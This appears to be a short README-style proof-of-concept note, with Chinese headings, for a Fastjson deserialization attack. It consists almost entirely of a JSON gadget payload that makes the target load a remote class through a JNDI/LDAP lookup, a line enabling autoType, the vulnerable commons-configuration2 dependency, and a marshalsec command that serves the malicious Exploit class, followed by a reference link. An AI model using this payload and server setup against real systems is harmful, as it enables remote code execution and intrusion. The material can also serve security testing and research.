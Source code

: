 ##gatget
```
  {"@type":"org.apache.commons.configuration2.JNDIConfiguration",
   "prefix":"ldap://127.0.0.1:1389/vul.Exploit"}
```

##开启autotype
```
  ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```
##pom.xml额外引入gatget类
```
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-configuration2</artifactId>
        <version>2.0</version>
    </dependency>
```
- [工具marshalsec](https://github.com/k6ymaker/marshalsec)
```
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/\#vul.Exploit
```
- [reference](https://mp.weixin.qq.com/s?__biz=MzU3NzMxNDgwMA==&mid=2247483807&idx=1&sn=4e9a229fb32721b353c896e1a9fab1eb&chksm=fd07cb00ca704216e9f9f99f6f615014581eb3f9a8423e8213c4840e498241cf169ffe187343&mpshare=1&scene=23&srcid=&sharer_sharetime=1569291237460&sharer_shareid=b9dede03cd3f2e7d4dbf72830bcff7c6#rd)